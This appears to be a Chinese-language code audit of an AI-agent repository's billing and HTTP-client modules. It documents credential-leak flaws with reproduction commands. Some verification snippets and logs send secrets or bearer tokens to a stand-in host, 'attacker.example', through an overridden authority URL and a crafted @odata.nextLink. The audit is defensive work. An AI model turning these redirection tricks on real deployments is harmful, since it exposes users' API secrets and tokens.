        key=lambda t: t.tier_order or 0,
    )
```

### 2.6 文档-代码冲突 ▲:`/subscription` 既不是 CLI-only,也不"在浏览器里改"

`website/docs/reference/slash-commands.md:129 @ 863e313`(位于 `## Interactive CLI slash commands` → `### Info` 表内)

> | `/subscription` (alias: `/upgrade`) | **CLI only.** View your Nous plan and change it in the browser. |

整句包含两条断言,**两条都被代码证伪**。

**证伪 1 —— 不是 CLI-only**:TUI 的 slash 注册表里就有它。

`ui-tui/src/app/slash/registry.ts:11-15 @ 863e313`

```
export const SLASH_COMMANDS: SlashCommand[] = [
  ...coreCommands,
  ...topupCommands,
  ...sessionCommands,
  ...subscriptionCommands,
```

**证伪 2 —— 不是"在浏览器里改"**:TUI 在终端内完成套餐变更(模块 docstring 自陈),

`agent/subscription_view.py:8-12 @ 863e313`

```
The TUI ``SubscriptionOverlay`` drives the plan change in-terminal (V3): it
previews the effect, then schedules a downgrade / cancellation / resume
(chargeless) or applies an upgrade (charges the card on the subscription). The
portal deep-link (built locally from ``portal_url`` + ``org_id``) remains the
fallback for an upgrade that needs 3DS / was declined.
```

而 CLI **也**在终端内提交变更,直接调 NAS 变更接口:

`hermes_cli/cli_billing_mixin.py:594-596 @ 863e313`

```
            if kind == "upgrade":
                try:
                    res = post_subscription_upgrade(subscription_type_id=arg, idempotency_key=key) or {}
```

浏览器深链是**降级路径**(3DS / 拒付),不是主路径。

*同一张表里的 `/copy` 也标了 "CLI-only",而 `ui-tui/src/app/slash/commands/core.ts:385` 里
有一个 `name: 'copy'` 的命令——说明这张表的 "CLI-only" 标注整体不可信。
我只把 `/subscription` 记为 ▲(它在本片范围内);`/copy` 只作旁证,未逐条取证。*

---

## 3. `agent/aux_accounting.py`(138 行):辅助模型的账怎么单记

### 3.1 问题

视觉识别、上下文压缩、标题生成、`web_extract`、`session_search` 这些"辅助调用"
统一走 `agent.auxiliary_client`,而那个模块**没有会话句柄**——于是这些 token 的花费历史上直接丢了,
仪表盘看不到辅助模型的支出(issue #23270)。

### 3.2 解法:不穿参数,改用环境上下文(ContextVar)

`agent/aux_accounting.py:8-11 @ 863e313`

```
Instead of threading ``session_db``/``session_id`` parameters through every
aux call site, the agent loop publishes them here (mirroring the Nous Portal
conversation context in ``agent.portal_tags``) and the auxiliary client
records usage at its single response-validation chokepoint.
```

`agent/aux_accounting.py:36-43 @ 863e313`

```
_accounting: ContextVar[Optional[tuple]] = ContextVar(
    "aux_accounting_context", default=None
)

# Aux tasks whose usage is already accounted by the main loop — recording
# them here would double-count. MoA advisor/aggregator usage is folded into
# conversation_loop's update_token_counts delta (tokens AND cost).
_EXCLUDED_TASKS = frozenset({"moa_reference", "moa_aggregator"})
```

选 `ContextVar` 而不是线程局部或全局变量,是因为它一次给齐三种隔离:

`agent/aux_accounting.py:13-19 @ 863e313`

```
ContextVar semantics give us the right isolation for free:

* concurrent agents in one process (gateway sessions, delegate subagents)
  never see each other's accounting context;
* worker threads spawned via ``tools.thread_context.propagate_context_to_thread``
  (MoA fan-out, background review) inherit the parent turn's context;
* asyncio tasks inherit the context of the code that created them.
```

*注意第二条不是 `ContextVar` 自带的——线程默认**不**继承 ContextVar,
所以仓库另外写了 `tools.thread_context.propagate_context_to_thread` 来显式搬运。
这是"用一个已有原语覆盖三个场景"的代价:第三个场景需要手工补一块。*

### 3.3 与主账的关系:靠一张排除名单避免重复计费

MoA(Mixture-of-Agents)的 reference / aggregator 槽位已经被主循环的
`update_token_counts` 增量算进去了,所以这里必须**跳过**它们。这是"两处记账"的经典冲突,
本仓库的处理是显式排除 + 把理由写在常量旁边(见上 40-43 行)。

### 3.4 记账链路

`agent/aux_accounting.py:93-101 @ 863e313`

```
        if not task or task in _EXCLUDED_TASKS:
            return
        ctx = _accounting.get()
        if ctx is None:
            return
        session_db, session_id = ctx
        raw_usage = getattr(response, "usage", None)
        if raw_usage is None:
            return
```

模型名从**响应**读,不从请求读:

`agent/aux_accounting.py:88-90 @ 863e313`

```
    The model is read from ``response.model`` (accurate even after the aux
    client's provider-fallback chains); *provider*/*base_url* reflect the
    originally-resolved route and are best-effort.
```

*这是关键的一处正确性判断:辅助客户端有 provider 回退链,请求发给 A、实际服务的可能是 B。
按请求记账会把账记到错误的模型上。*

`agent/aux_accounting.py:124-136 @ 863e313`

```
        session_db.record_auxiliary_usage(
            session_id,
            task,
            model=model,
            billing_provider=provider,
            billing_base_url=base_url,
            input_tokens=usage.input_tokens,
            output_tokens=usage.output_tokens,
            cache_read_tokens=usage.cache_read_tokens,
            cache_write_tokens=usage.cache_write_tokens,
            reasoning_tokens=usage.reasoning_tokens,
            estimated_cost_usd=estimated_cost,
        )
```

整个函数被两层 `try/except` 包住并只 `logger.debug`:**记账绝不能弄坏一次辅助调用**。
代价是:一旦 `record_auxiliary_usage` 的签名变了,这条链会**静默死掉**,只在 debug 日志里留痕。
(对比 `run_agent._capture_credits` 的做法——那里把"解析"和"通知"分成两块,
解析吞掉、通知 `logger.warning`,理由正是"深度路径的 bug 不能无声消失"。这里没有做这个区分。)

---

## 4. `agent/billing_links.py`(124 行):链接里会不会拼进用户标识?

### 4.1 结构

一张 14 条的表,`slug` 和 `base_url` 主机名双索引:

`agent/billing_links.py:48-55 @ 863e313`

```
# Single source of truth: internal slug(s) + base_url host(s) → billing page.
# Curated "add credits / manage billing" landing pages, not marketing homes.
# Hosts back the OpenAI-compatible fallback where the slug is a generic bucket
# (e.g. "openai_compatible") but base_url reveals the real upstream. An unknown
# provider degrades to a readable label with no invented URL.
_PROVIDERS: tuple[_Provider, ...] = (
    _Provider("OpenAI", "https://platform.openai.com/settings/organization/billing", ("openai",), ("api.openai.com",)),
    _Provider("Anthropic", "https://console.anthropic.com/settings/billing", ("anthropic",), ("api.anthropic.com",)),
```

`agent/billing_links.py:90-101 @ 863e313`

```
def _resolve_provider_link(slug: str, base_url: str) -> tuple[str, Optional[str]]:
    """Resolve ``(label, url)``: exact slug → base_url host → readable-label fallback."""
    hit = _BY_SLUG.get(slug)
    if hit:
        return hit.label, hit.url

    base = str(base_url or "")
    for p in _PROVIDERS:
        if any(base_url_host_matches(base, host) for host in p.hosts):
            return p.label, p.url

    return slug.replace("_", " ").replace("-", " ").strip().title() or "your provider", None
```

**未知 provider 返回 `None` 而不是编一个 URL**——这条纪律值得抄。
一个猜出来的充值链接会把用户送到错误的地方,比"没有链接"更糟。

主机匹配走的是共享的 `base_url_host_matches`,而不是子串包含:

`agent/billing_links.py:73-77 @ 863e313`

```
def is_nous_inference_route(provider: str, base_url: str) -> bool:
    """True when the failing route is the Nous-managed inference gateway."""
    if (provider or "").strip().lower() == "nous":
        return True
    return base_url_host_matches(str(base_url or ""), "inference-api.nousresearch.com")
```

`utils.py:655-658 @ 863e313`

```
        base_url_host_matches("https://api.moonshot.ai/v1", "moonshot.ai") == True
        base_url_host_matches("https://moonshot.ai", "moonshot.ai")        == True
        base_url_host_matches("https://evil.com/moonshot.ai/v1", "moonshot.ai") == False
        base_url_host_matches("https://moonshot.ai.evil/v1", "moonshot.ai")     == False
```

*这正是 R9B 两条 ■(`gateway/relay/media.py` 用子串、`tools/skills_sync_client.py` 只 strip)
所缺的那个工具。**它就在 `utils.py` 里,`billing_links.py` 用了,那两处没用。***

### 4.2 链接里会拼进什么(任务书重点)

**结论:会拼进组织标识,不会拼进凭据。** 逐个查:

| 生成器 | 拼进去的东西 | 是否凭据 |
|---|---|---|
| `billing_links._PROVIDERS[*].url` | 纯静态常量 | 否 |
| `billing_links._nous_billing_url()` → `nous_portal_billing_url(None)` | 仅 `{portal_base}/billing` | 否 |
| `nous_account.nous_portal_topup_url()` | `org_slug`(URL 编码) | 否,是组织标识 |
| `subscription_view.subscription_manage_url()` | `org_id` + `plan=<tier_id>` | 否,是组织/档位标识 |
| `billing_view._fallback_portal_url()` | `?topup=open` | 否 |

`agent/subscription_view.py:337-345 @ 863e313`

```
    params = dict(parse_qsl(parts.query, keep_blank_values=True))
    params.pop("org_id", None)
    params.pop("plan", None)
    if state.org_id:
        params["org_id"] = state.org_id
    if tier_id:
        params["plan"] = tier_id
    query = urlencode(params)
    return urlunsplit((parts.scheme, parts.netloc, "/manage-subscription", query, ""))
```

写得干净的几点:先 `pop` 再写(避免重复参数)、保留无关参数、用 `urlencode` 而不是字符串拼接、
用 `urlunsplit` 重建**只保留 scheme+netloc**(丢掉原 path/fragment)。

**但主机没有校验**,只有 scheme 白名单:

`agent/subscription_view.py:330-331 @ 863e313`

```
    if parts.scheme not in ("http", "https") or not parts.netloc:
        return None
```

`state.portal_url` 的来源链是:服务端 `portalUrl`(经 `_absolutize_portal_url` 相对化解析)
→ 否则 `resolve_portal_base_url()`。而后者读环境变量,**不查主机允许清单**:

`hermes_cli/nous_billing.py:179-186 @ 863e313`

```
    env = os.getenv("HERMES_PORTAL_BASE_URL") or os.getenv("NOUS_PORTAL_BASE_URL")
    if env and env.strip():
        return env.strip().rstrip("/")
    if state:
        stored = state.get("portal_base_url")
        if isinstance(stored, str) and stored.strip():
            return stored.strip().rstrip("/")
    return DEFAULT_PORTAL_BASE_URL
```

**风险评级:低。** 理由:(a) `subscription_manage_url` 的产物是给用户**打开**的链接,不带凭据;
(b) 环境变量是用户自设的,`hermes_cli/auth.py:2260-2264` 明确把 env override 定为可信来源。
**但同一个 `resolve_portal_base_url` 的返回值也被 `nous_billing._request` 用作 bearer 的目的地**:

`hermes_cli/nous_billing.py:398-403 @ 863e313`

```
    token, base = _resolve_token_and_base(use_cache=not _retried_auth)
    url = f"{base}{path}"
    headers = {
        "Authorization": f"Bearer {token}",
        "Accept": "application/json",
    }
```

对照:同仓库的 `hermes_cli/auth.py:5899-5905` 在读**存储的** `portal_base_url` 时是查清单的
(`_NOUS_PORTAL_ALLOWED_HOSTS`),`nous_billing.resolve_portal_base_url` 读同一个存储字段时**不查**。
这是同一份知识的第二份副本,两份的严格程度不同。因为 `nous_billing.py` 不在本片 10 个文件内,
我把它记为**移交项**而非本片定案(见第 7 节 H-R9C-1)。

### 4.3 ■:同一轮里 Anthropic 的充值链接有两个,而注释断言只有一个

`billing_links` 自称 "Single source of truth"。但 `conversation_loop._billing_or_entitlement_message`
在**查表之前**给 Anthropic 开了一条短路,硬编码了另一个 URL:

`agent/conversation_loop.py:388-399 @ 863e313`

```
    if (provider or "").strip().lower() == "anthropic":
        lines = [
            (
                f"{provider_label} reported that your Claude subscription usage is "
                f"exhausted for {model_label} (included quota + extra-usage credits)."
            ),
            "Options: wait for the billing cycle to reset, or add extra usage at "
            "https://claude.ai/settings/usage",
            "You can also switch to an Anthropic API key or another provider with "
            "/model <model> --provider <provider>.",
        ]
        return "\n".join(lines)
```

而结构化信号仍然从表里取,于是**同一轮的同一条回复里,两个面各说一个地址**:

`agent/conversation_loop.py:5482-5486 @ 863e313`

```
                        if _billing_guidance:
                            _final_response += f"\n\n{_billing_guidance}"
                        # Structured recovery descriptor so every surface renders
                        # the same link + label from one signal (see helper).
                        _billing_block = _billing_block_dict(_provider, _base, _model, _billing_guidance)
```

实测:

```console
TEXT surface (appended to the reply at conversation_loop.py:5483):
    anthropic reported that your Claude subscription usage is exhausted for claude-sonnet-4-6 (included quota + extra-usage credits).
    Options: wait for the billing cycle to reset, or add extra usage at https://claude.ai/settings/usage
    You can also switch to an Anthropic API key or another provider with /model <model> --provider <provider>.
STRUCTURED surface (built at conversation_loop.py:5486):
    billing_url = https://console.anthropic.com/settings/billing | provider_label = Anthropic
```

```verify
cd /home/user/hermes-agent && HERMES_DISABLE_LAZY_INSTALLS=1 /home/user/hermes-venv/bin/python -c "
from agent.conversation_loop import _billing_or_entitlement_message, _billing_block_dict
kw=dict(provider='anthropic', base_url='https://api.anthropic.com/v1', model='claude-sonnet-4-6')
m=_billing_or_entitlement_message(capability='model access', **kw)
print(m); print(_billing_block_dict(kw['provider'],kw['base_url'],kw['model'],m)['billing_url'])"
```

**注意这不必然是缺陷。** 两个地址服务两种账户形态(订阅额外用量 vs API 充值),
可能是有意为之。真正的问题是那句注释——`5484-5485` 断言 "every surface renders **the same link**",
而实际不是。**要么两处统一,要么把注释改成"文本面和结构面刻意不同,原因是……"。**
按 CLAUDE.md 记号规则,这条记 ■(代码/注释矛盾且有真实用户可见后果:桌面端点按钮和读文字会去两个地方)。

---

## 5. 三个 HTTP 客户端

### 5.0 横向对照(先给结论)

| | 鉴权 | base URL 来源 | 主机校验 | 超时 | 重试 |
|---|---|---|---|---|---|
| Microsoft Graph | app-only `client_credentials` → `Bearer` | 构造参数,默认常量;**响应体的 `@odata.nextLink` 可任意改写** | **无**(见 5.1.4) | 60s(可配) | 3 次;401 清缓存重试;429/5xx 退避;**`Retry-After` 无上限** |
| xAI | OAuth bearer 或 `XAI_API_KEY` | OAuth 路径:池 + 环境覆盖;API-key 路径:`XAI_BASE_URL` | OAuth 路径**有**;API-key 路径**无** | 由调用方决定(本文件不发请求) | 无(本文件不发请求) |
| OpenRouter | `OPENROUTER_API_KEY`(或凭据池) | `hermes_constants.OPENROUTER_BASE_URL` 硬常量 | 不需要(不接受覆盖) | 由 `auxiliary_client` 决定 | 由 `auxiliary_client` 决定 |

### 5.1 Microsoft Graph

#### 5.1.1 Token 流程(`tools/microsoft_graph_auth.py`)

标准的 OAuth2 客户端凭据流,三个环境变量必填:

`tools/microsoft_graph_auth.py:55-58 @ 863e313`

```
        tenant_id = (env.get("MSGRAPH_TENANT_ID") or "").strip()
        client_id = (env.get("MSGRAPH_CLIENT_ID") or "").strip()
        client_secret = (env.get("MSGRAPH_CLIENT_SECRET") or "").strip()
        scope = (env.get("MSGRAPH_SCOPE") or DEFAULT_GRAPH_SCOPE).strip()
```

token 端点是三段拼接:

`tools/microsoft_graph_auth.py:41-45 @ 863e313`

```
    @property
    def token_url(self) -> str:
        base = self.authority_url.rstrip("/")
        tenant = self.tenant_id.strip().strip("/")
        return f"{base}/{tenant}/oauth2/v2.0/token"
```

取 token 用了**双检加锁 + 提前量过期**(默认 120s skew),这是写得很标准的一段:

`tools/microsoft_graph_auth.py:149-165 @ 863e313`

```
    async def get_access_token(self, *, force_refresh: bool = False) -> str:
        cached = self._cached_token
        if not force_refresh and cached and not cached.is_expired(
            skew_seconds=self.skew_seconds
        ):
            return cached.access_token

        async with self._lock:
            cached = self._cached_token
            if not force_refresh and cached and not cached.is_expired(
                skew_seconds=self.skew_seconds
            ):
                return cached.access_token

            token = await self._fetch_access_token()
            self._cached_token = token
            return token.access_token
```

*锁外先探一次(快路径不排队),锁内再探一次(避免惊群时重复取 token)。
`asyncio.Lock` 而非线程锁——因为整个客户端是 async 的。
`skew_seconds` 让 token 在真正过期前 2 分钟就被换掉,避开"刚好在飞行途中过期"。*

`client_secret` 只出现在 POST body 里(不进 URL、不进日志),诊断接口也刻意不吐它:

`tools/microsoft_graph_auth.py:134-147 @ 863e313`

```
    def inspect_token_health(self) -> dict[str, Any]:
        cached = self._cached_token
        return {
            "configured": True,
            "tenant_id": self.credentials.tenant_id,
            "client_id": self.credentials.client_id,
            "scope": self.credentials.scope,
            "authority_url": self.credentials.authority_url,
            "token_url": self.credentials.token_url,
            "cached": bool(cached),
            "expires_in_seconds": cached.expires_in_seconds if cached else None,
            "is_expired": cached.is_expired(skew_seconds=0) if cached else None,
            "refresh_skew_seconds": self.skew_seconds,
        }
```

#### 5.1.2 ■:`MSGRAPH_AUTHORITY_URL` 没有 scheme/主机校验,`client_secret` 可被明文外发

`authority_url` 直接进 `token_url`,`token_url` 直接收 `client_secret`:

`tools/microsoft_graph_auth.py:167-184 @ 863e313`

```
    async def _fetch_access_token(self) -> CachedAccessToken:
        data = {
            "grant_type": "client_credentials",
            "client_id": self.credentials.client_id,
            "client_secret": self.credentials.client_secret,
            "scope": self.credentials.scope,
        }
        headers = {"Content-Type": "application/x-www-form-urlencoded"}

        async with httpx.AsyncClient(
            timeout=httpx.Timeout(self.timeout),
            transport=self._transport,
        ) as client:
            response = await client.post(
                self.credentials.token_url,
                data=data,
                headers=headers,
            )
```

**全文件没有任何一处校验 `authority_url` 的 scheme 或主机。**
搜索面:`tools/microsoft_graph_auth.py` 全文 245 行逐行读过;
`grep -n "https\|scheme\|urlparse\|hostname" tools/microsoft_graph_auth.py` 只命中
`DEFAULT_GRAPH_SCOPE` / `DEFAULT_GRAPH_AUTHORITY_URL` 两个常量定义(14-15 行),无校验逻辑。

实测:

```console
C1 token_url = http://attacker.example/t/oauth2/v2.0/token
```

```verify
cd /home/user/hermes-agent && HERMES_DISABLE_LAZY_INSTALLS=1 /home/user/hermes-venv/bin/python -c "
from tools.microsoft_graph_auth import GraphCredentials
print(GraphCredentials.from_env({'MSGRAPH_TENANT_ID':'t','MSGRAPH_CLIENT_ID':'c',
  'MSGRAPH_CLIENT_SECRET':'s','MSGRAPH_AUTHORITY_URL':'http://attacker.example'}).token_url)"
```

文档把这个变量定位成"只为主权云覆盖":

`website/docs/reference/environment-variables.md:575 @ 863e313`

> | `MSGRAPH_AUTHORITY_URL` | Microsoft identity platform authority (default: `https://login.microsoftonline.com`). Override only for national/sovereign clouds (e.g. `https://login.microsoftonline.us` for GCC High). |

**对照同仓库的 xAI:一模一样的"env 覆盖端点"场景,那边逐条校验并写明了威胁模型。**

`hermes_cli/auth.py:4739-4742 @ 863e313`

```
    Pin the inference origin to ``api.x.ai`` (or any ``*.x.ai`` subdomain xAI
    may add). On rejection, fall back to the default and log a warning rather
    than raise — a bad env var should not deadlock authentication, but it
    should also never leak the bearer.
```

`hermes_cli/auth.py:4758-4764 @ 863e313`

```
    if parsed.scheme != "https":
        logger.warning(
            "Refusing non-HTTPS xAI base_url override %r (xai-oauth bearer would "
            "be sent in cleartext); falling back to %s.",
            candidate, fallback,
        )
        return fallback
```

**至少 `scheme != "https"` 这一条应当照搬**:主权云的合法主机集合无法枚举,但"必须是 HTTPS"没有例外。
`client_secret` 是长期有效的应用级凭据,比 access token 严重得多。

#### 5.1.3 客户端的重试与鉴权(`tools/microsoft_graph_client.py`)

每次请求都现取 token,401 时清缓存并强制刷新后重试:

`tools/microsoft_graph_client.py:273-281 @ 863e313`

```
        while attempt <= self.max_retries:
            token = await self.token_provider.get_access_token(
                force_refresh=attempt > 0 and self._should_refresh_token(last_error)
            )
            request_headers = {
                "Authorization": f"Bearer {token}",
                "Accept": "application/json",
                "User-Agent": self.user_agent,
            }
```

`tools/microsoft_graph_client.py:315-326 @ 863e313`

```
            if response.status_code == 401 and attempt < self.max_retries:
                self.token_provider.clear_cache()
                await self._sleep(self._retry_delay(response, attempt))
                attempt += 1
                continue

            if self._should_retry(response) and attempt < self.max_retries:
                await self._sleep(self._retry_delay(response, attempt))
                attempt += 1
                continue

            raise api_error
```

*`force_refresh` 只在**上一次错误确实是 401** 时才置位(`_should_refresh_token`),
而不是"只要重试就刷新"——避免 429 引发无谓的 token 请求。*

每次请求都新建一个 `httpx.AsyncClient` 并在 `async with` 里用完即弃
(`tools/microsoft_graph_client.py:288-291 @ 863e313`)。

```
                async with httpx.AsyncClient(
                    timeout=httpx.Timeout(self.timeout),
                    transport=self._transport,
                ) as client:
```

*取舍:**放弃连接池复用**换取"没有需要管理的客户端生命周期"。
对 Teams 会议这种低频批处理是划算的;对高 QPS 场景会是明显的性能问题。
另一个副作用:`follow_redirects` 保持 httpx 默认的 `False`,所以 bearer 不会被 3xx 带走——
这一点是白捡的,不是设计出来的。*

#### 5.1.4 ■(本片最严重):分页会把 bearer 发到响应体指定的任意主机

`_resolve_url` 对"看起来像绝对 URL"的输入原样放行,包括明文 `http://`:

`tools/microsoft_graph_client.py:332-336 @ 863e313`

```
    def _resolve_url(self, path_or_url: str) -> str:
        if path_or_url.startswith(("http://", "https://")):
            return path_or_url
        path = path_or_url if path_or_url.startswith("/") else f"/{path_or_url}"
        return f"{self.base_url}{path}"
```

而分页的下一页 URL **来自响应体**,直接喂回 `_request`:

`tools/microsoft_graph_client.py:117-140 @ 863e313`

```
    async def iterate_pages(
        self,
        path: str,
        *,
        params: dict[str, Any] | None = None,
        headers: dict[str, str] | None = None,
    ) -> AsyncIterator[dict[str, Any]]:
        next_url: str | None = self._resolve_url(path)
        next_params = dict(params or {})
        while next_url:
            response = await self._request(
                "GET",
                next_url,
                params=next_params or None,
                headers=headers,
            )
            payload = self._decode_json(response)
            if not isinstance(payload, dict):
                raise MicrosoftGraphClientError(
                    f"Expected paginated Graph response dict, got {type(payload).__name__}."
                )
            yield payload
            next_url = payload.get("@odata.nextLink")
            next_params = {}
```

这与 R9B 定案的两条 ■ **同型**:凭据被发往未经主机校验的、来自网络的 URL。
而且这里的来源比那两处更"外部"——它是**响应体字段**,不是配置。

端到端实测(httpx MockTransport,首页返回一个指向 `http://attacker.example` 的 `@odata.nextLink`):

```console
items = [1, 2]
  request -> https://graph.microsoft.com/v1.0/me/messages   Authorization=Bearer GRAPH-BEARER-SECRET
  request -> http://attacker.example/steal?p=2   Authorization=Bearer GRAPH-BEARER-SECRET
```

**这条路径在生产中确实被走**(不是死代码):

`plugins/teams_pipeline/subscriptions.py:131` / `plugins/teams_pipeline/meetings.py:178,246` /
`plugins/teams_pipeline/cli.py:349` 四处调用 `collect_paginated`。

```verify
cd /home/user/hermes-agent && grep -rn "collect_paginated\|iterate_pages" --include=*.py . | grep -v "^./tests"
```

**而这条路径没有任何测试。** 搜索面:在 `tests/` 全树用
`grep -rn "iterate_pages\|collect_paginated\|nextLink\|odata" tests/ --include=*.py` → **0 命中**;
`tests/tools/test_microsoft_graph_client.py` 全文只有 3 个用例(bearer 头、429 重试、非 JSON 响应)。

```verify
cd /home/user/hermes-agent && grep -rn "iterate_pages\|collect_paginated\|nextLink\|odata" tests/ --include=*.py; echo "hits=$?"
cd /home/user/hermes-agent && grep -c "async def test" tests/tools/test_microsoft_graph_client.py
```

修法(与仓库既有做法一致):在 `_resolve_url` 里对绝对 URL 做
`urlparse` → `scheme == "https"` 且 `hostname` 属于 `self.base_url` 的主机(或 `graph.microsoft.com`
的子域)才放行,否则抛 `MicrosoftGraphClientError`。工具已经现成:`utils.base_url_host_matches`。

附带的次要问题:`payload.get("@odata.nextLink")` 没有类型检查,
一个非字符串值(如 dict)会让 `path_or_url.startswith` 抛 `AttributeError` 逃出
`MicrosoftGraphClientError` 的错误契约。

#### 5.1.5 ■:`Retry-After` 无上限,一次 429 就能让调用挂住任意久

`tools/microsoft_graph_client.py:358-364 @ 863e313`

```
    @staticmethod
    def _retry_delay(response: httpx.Response | None, attempt: int) -> float:
        if response is not None:
            retry_after = parse_retry_after_seconds(response.headers)
            if retry_after is not None:
                return retry_after
        return min(8.0, 0.5 * (2 ** attempt))
```

**本地退避封顶 8 秒,服务端给的值不封顶。** 而共享解析器只钳负数、不钳上限:

`agent/retry_utils.py:69-77 @ 863e313`

```
    if isinstance(raw, (int, float)):
        return max(0.0, float(raw))
    text = str(raw).strip()
    if not text:
        return None
    try:
        return max(0.0, float(text))
    except (TypeError, ValueError):
        pass
```

实测:

```console
A1 _retry_delay(Retry-After=86400) = 86400.0
A2 _retry_delay(no response, attempt=9) = 8.0
```

```verify
cd /home/user/hermes-agent && HERMES_DISABLE_LAZY_INSTALLS=1 /home/user/hermes-venv/bin/python -c "
import httpx; from tools.microsoft_graph_client import MicrosoftGraphClient
print(MicrosoftGraphClient._retry_delay(httpx.Response(429, headers={'Retry-After':'86400'}), 0))
print(MicrosoftGraphClient._retry_delay(None, 9))"
```

**同仓库另一处对完全同一件事做了钳位**,注释还写明了理由:

`hermes_cli/auth.py:8109-8112 @ 863e313`

```
            # Exponential backoff (2s, 4s, 8s) capped, preferring the
            # server-provided Retry-After when present.
            delay = retry_after if retry_after is not None else 2 ** attempt
            delay = max(1, min(int(delay), 60))
```

又是 R9B 那条病:**"优先用服务端 Retry-After,但要封顶"这条知识写了两遍,一份带封顶一份不带。**
`hermes_cli/nous_billing.py:298-307` 是第三份副本,但它只把值放进错误消息、不用来睡眠,所以不受影响。

现有测试反而把无上限的行为**钉住**了(`Retry-After: 3` → `assert sleeps == [3.0]`),
只是数值太小,看不出问题——这是"用例证明了实现,但没有约束实现的危险区间"的典型。

#### 5.1.6 下载路径的一处小亮点

`download_to_file` 用 `.part` 临时文件 + `os.replace` 原子落盘,失败路径统一 `unlink(missing_ok=True)`:

`tools/microsoft_graph_client.py:170-173 @ 863e313`

```
        url = self._resolve_url(path)
        target = Path(destination)
        target.parent.mkdir(parents=True, exist_ok=True)
        tmp_target = target.with_suffix(target.suffix + ".part")
```

*但它同样走 `_resolve_url`,所以 5.1.4 的问题在下载路径上也在——只是目前的调用方
(`meetings.py:205,263`)传的是自己拼的相对路径,没有把网络值传进来。*

### 5.2 xAI(`tools/xai_http.py`)

#### 5.2.1 双路径凭据解析

先试 Hermes 托管的 OAuth 凭据池,失败则回落到 `XAI_API_KEY`。
**OAuth 路径的 base_url 经过校验:**

`tools/xai_http.py:295-308 @ 863e313`

```
        fallback_base_url = str(
            getattr(entry, "runtime_base_url", None)
            or getattr(entry, "base_url", "")
            or auth_mod.DEFAULT_XAI_OAUTH_BASE_URL
        ).strip().rstrip("/")
        override_base_url = str(
            get_env_value("HERMES_XAI_BASE_URL")
            or get_env_value("XAI_BASE_URL")
            or ""
        ).strip().rstrip("/")
        base_url = auth_mod._xai_validate_inference_base_url(
            override_base_url,
            fallback=fallback_base_url,
        )
```

#### 5.2.2 ■(中危):API-key 路径的 base_url 完全不校验,且悄悄忽略 `HERMES_XAI_BASE_URL`

`tools/xai_http.py:318-329 @ 863e313`

```
    try:
        from tools.tool_backend_helpers import resolve_provider_secret

        api_key = resolve_provider_secret("XAI_API_KEY", "xai", env_getter=get_env_value)
    except ImportError:  # pragma: no cover — helpers are in-repo
        api_key = str(get_env_value("XAI_API_KEY") or "").strip()
    base_url = str(get_env_value("XAI_BASE_URL") or "https://api.x.ai/v1").strip().rstrip("/")
    return {
        "provider": "xai",
        "api_key": api_key,
        "base_url": base_url,
    }
```

同一个函数,两条返回路径,一条校验一条不校验。实测:

```console
{'XAI_API_KEY': 'sk-XAI-SECRET'}
   -> provider=xai base_url='https://api.x.ai/v1'
{'XAI_API_KEY': 'sk-XAI-SECRET', 'XAI_BASE_URL': 'http://attacker.example/v1'}
   -> provider=xai base_url='http://attacker.example/v1'
{'XAI_API_KEY': 'sk-XAI-SECRET', 'HERMES_XAI_BASE_URL': 'https://api.x.ai/v2'}
   -> provider=xai base_url='https://api.x.ai/v1'
Refusing non-HTTPS xAI base_url override 'http://attacker.example/v1' (xai-oauth bearer would be sent in cleartext); falling back to https://api.x.ai/v1.
OAuth branch w/ hostile XAI_BASE_URL -> {'provider': 'xai-oauth', 'api_key': 'xai-oauth-BEARER', 'base_url': 'https://api.x.ai/v1'}
```

三条独立结论:
1. `XAI_BASE_URL=http://attacker.example/v1` 在 API-key 路径被**原样接受**(明文 + 任意主机)。
2. `HERMES_XAI_BASE_URL` 在 API-key 路径被**静默忽略**(只有 OAuth 路径认它)——◇,文档也没提这个变量。
3. OAuth 路径正确拒绝并落回默认值,同时打了 warning。

**关于严重性的诚实评估**:`XAI_BASE_URL` 是用户自设的,按仓库自己的威胁模型(env 来源可信)
这不算漏洞。**但 `get_env_value` 优先读 `~/.hermes/.env` 文件而非进程环境**:

`tools/xai_http.py:80-84 @ 863e313`

```
    """Read ``name`` from ``~/.hermes/.env`` first, then ``os.environ``.

    Wraps :func:`hermes_cli.config.get_env_value` so tests can patch
    ``tools.xai_http.get_env_value`` to inject dotenv-only secrets into the
    xAI credential resolver.
```

而 `_xai_validate_inference_base_url` 的 docstring **点名的正是这个场景**:
"a tampered ``.env`` or hostile shell init"。所以按本仓库自己写下的威胁模型,
API-key 路径的暴露面与 OAuth 路径**完全相同**,只是少了那道门。
文档也只说它是个普通的覆盖开关,没提任何限制:

`website/docs/reference/environment-variables.md:98 @ 863e313`

> | `XAI_BASE_URL` | Override xAI base URL (default: `https://api.x.ai/v1`) |

#### 5.2.3 廉价探测:`has_xai_credentials` 为什么不能走完整解析

`tools/xai_http.py:17-24 @ 863e313`

```
    """Cheap probe — return True when xAI credentials are *likely* usable.

    Deliberately avoids :func:`resolve_xai_http_credentials` so callers in
    hot-paint paths (``hermes tools`` repaint, tool-registration scans,
    ``WebSearchProvider.is_available()``) don't incur disk locks or — in
    the OAuth path — a network token refresh. The ABC contract on
    :meth:`agent.web_search_provider.WebSearchProvider.is_available`
    explicitly forbids network calls for exactly this reason.
```

*"可用性探测"和"真正取凭据"必须是两个函数、两种成本承诺。
把它们合并会让一次 UI 重绘触发磁盘锁和网络刷新——这是很常见的一个设计事故。*

#### 5.2.4 存储 TTL 的归一化与"付费提示只给一次"

`_coerce_expires_after` 把一堆用户可能写的值收敛成"整数秒 or None(永久)",
无法解析时**不返回永久,而是返回一个 2 天的安全值**:

`tools/xai_http.py:151-162 @ 863e313`

```
        if normalized in {"none", "null", "never", "permanent", "forever", "0"}:
            return None
        try:
            value = int(normalized)
        except ValueError:
            return SAFE_XAI_STORAGE_EXPIRES_AFTER_SECONDS
    if isinstance(value, (int, float)):
        seconds = int(value)
        if seconds <= 0:
            return None
        return min(seconds, MAX_XAI_STORAGE_EXPIRES_AFTER_SECONDS)
    return SAFE_XAI_STORAGE_EXPIRES_AFTER_SECONDS
```

*"看不懂的配置 → 选花钱最少的那个默认值",而不是继承"永久保存"这个默认。
明确写出的 `MAX`(30 天)也把一个手滑的巨值挡住了。*

而"xAI 可能对存储收费"这件事会用一个 marker 文件保证只提示一次:

`tools/xai_http.py:243-252 @ 863e313`

```
    try:
        from hermes_constants import get_hermes_home

        marker_dir = get_hermes_home() / "state"
        marker_dir.mkdir(parents=True, exist_ok=True)
        marker = marker_dir / f"{section_name}_xai_storage_notice_seen"
        if marker.exists():
            return None
